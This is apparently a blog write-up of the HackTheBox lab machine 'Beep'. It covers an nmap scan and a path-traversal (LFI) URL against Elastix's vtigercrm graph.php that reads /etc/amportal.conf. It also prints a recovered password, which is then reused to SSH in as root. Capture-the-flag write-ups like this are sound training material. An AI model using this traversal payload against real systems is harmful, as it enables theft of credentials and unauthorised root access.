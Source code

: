 ```yaml
---
layout: post
title:  "HackTheBox - Beep Writeup"
categories: [HackTheBox]
tags: [pentesting]
draft: false
---
```


# Introduction

This is a writeup for the machine "Beep" (10.10.10.7) on the platform HackTheBox. HackTheBox is a penetration testing labs platform so aspiring pen-testers & pen-testers can practice their hacking skills in a variety of different scenarios.

## Enumeration

### NMAP

As always we start off with our full TCP port scan using NMAP - this box is running quite a lot of services **but** don't let that scare you! We follow the same enumeration process so let's not worry that its any different just because there are more ports!

```
Nmap scan report for 10.10.10.7
Host is up (0.090s latency).
Not shown: 65519 closed ports
PORT      STATE SERVICE    VERSION
22/tcp    open  ssh        OpenSSH 4.3 (protocol 2.0)
| ssh-hostkey: 
|   1024 ad:ee:5a:bb:69:37:fb:27:af:b8:30:72:a0:f9:6f:53 (DSA)
|_  2048 bc:c6:73:59:13:a1:8a:4b:55:07:50:f6:65:1d:6d:0d (RSA)
25/tcp    open  smtp       Postfix smtpd
|_smtp-commands: beep.localdomain, PIPELINING, SIZE 10240000, VRFY, ETRN, ENHANCEDSTATUSCODES, 8BITMIME, DSN, 
80/tcp    open  http       Apache httpd 2.2.3
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Did not follow redirect to https://10.10.10.7/
110/tcp   open  pop3       Cyrus pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_pop3-capabilities: STLS AUTH-RESP-CODE UIDL RESP-CODES IMPLEMENTATION(Cyrus POP3 server v2) PIPELINING APOP USER TOP EXPIRE(NEVER) LOGIN-DELAY(0)
111/tcp   open  rpcbind    2 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2            111/tcp  rpcbind
|   100000  2            111/udp  rpcbind
|   100024  1            742/udp  status
|_  100024  1            745/tcp  status
143/tcp   open  imap       Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4
|_imap-capabilities: LITERAL+ CATENATE MAILBOX-REFERRALS MULTIAPPEND SORT=MODSEQ URLAUTHA0001 QUOTA X-NETSCAPE ATOMIC CONDSTORE UNSELECT LISTEXT STARTTLS RENAME THREAD=ORDEREDSUBJECT UIDPLUS LIST-SUBSCRIBED ANNOTATEMORE NO THREAD=REFERENCES NAMESPACE ACL OK SORT IMAP4 ID RIGHTS=kxte Completed CHILDREN BINARY IDLE IMAP4rev1
443/tcp   open  ssl/http   Apache httpd 2.2.3 ((CentOS))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.2.3 (CentOS)
|_http-title: Elastix - Login page
| ssl-cert: Subject: commonName=localhost.localdomain/organizationName=SomeOrganization/stateOrProvinceName=SomeState/countryName=--
| Not valid before: 2017-04-07T08:22:08
|_Not valid after:  2018-04-07T08:22:08
|_ssl-date: 2019-06-12T19:52:21+00:00; -1h22m20s from scanner time.
745/tcp   open  status     1 (RPC #100024)
993/tcp   open  ssl/imap   Cyrus imapd
|_imap-capabilities: CAPABILITY
995/tcp   open  pop3       Cyrus pop3d
3306/tcp  open  mysql?
|_mysql-info: ERROR: Script execution failed (use -d to debug)
4190/tcp  open  sieve      Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
4445/tcp  open  upnotifyp?
4559/tcp  open  hylafax    HylaFAX 4.3.10
5038/tcp  open  asterisk   Asterisk Call Manager 1.1
10000/tcp open  http       MiniServ 1.570 (Webmin httpd)
|_http-server-header: MiniServ/1.570
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: Hosts:  beep.localdomain, 127.0.0.1, example.com, localhost; OS: Unix

Host script results:
|_clock-skew: mean: -1h22m20s, deviation: 0s, median: -1h22m20s
```

As you can see there are a bunch of different things running but that's not a problem! Let's first browse to the box on port 80 and see what we can find, in the background we'll run a directory scan on port 80 & 443 like usual.

### HTTP

Upon browsing to the box on port 80 I could see they were using something called "Elastix", the same software was running on port 443 so I cancelled my port 443 directory scanning and left the port 80 scan running.

![Elastix Login](/../../assets/images/2019-06-12-Beep/Elastix.png)

I decided to search for some exploits for "Elastix" despite not having a software version just because its a quick thing to do and one the easier boxes such as this one it never hurts to do a quick search as usually the exploitation process is very simple! Funnily enough when I searched this, the first thing that came up was an LFI & the second thing that appeared was an RCE - both work however I used the LFI in my initial run through so that's what I'll explain here.

## Exploitation

In order to exploit the LFI, all we had to do was browse to the following address `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action`. When browsing to the location you can see there are lots of usernames & passwords everywhere, interesting! I used `CTRL+F` to search for `password` and then I skipped through the file until I noticed this `jEhdIekWmdjE` a few times. With this being an easier box I decided to try & SSH with this address, perhaps they're password re-using, turns out there were!

```
root@KaliAttacker:~/Documents/HTB/Retired/Beep# ssh 10.10.10.7
The authenticity of host '10.10.10.7 (10.10.10.7)' can't be established.
RSA key fingerprint is SHA256:Ip2MswIVDX1AIEPoLiHsMFfdg1pEJ0XXD5nFEjki/hI.
Are you sure you want to continue connecting (yes/no)? yes
Warning: Permanently added '10.10.10.7' (RSA) to the list of known hosts.
root@10.10.10.7's password: 
Last login: Mon Jun 10 14:28:47 2019 from 10.10.14.5

Welcome to Elastix 
----------------------------------------------------
```

Well, that was easy! If you do an `id` you can see we're running as root so no need for privilege escalation, just grab the `user.txt` and `root.txt` and you're done. Beep actually HAS a lot of exploitation methods so if you find yourself with extra time & you're preparing for the OSCP, it might be worth exploiting this one in a variety of ways because there's lots of paths!


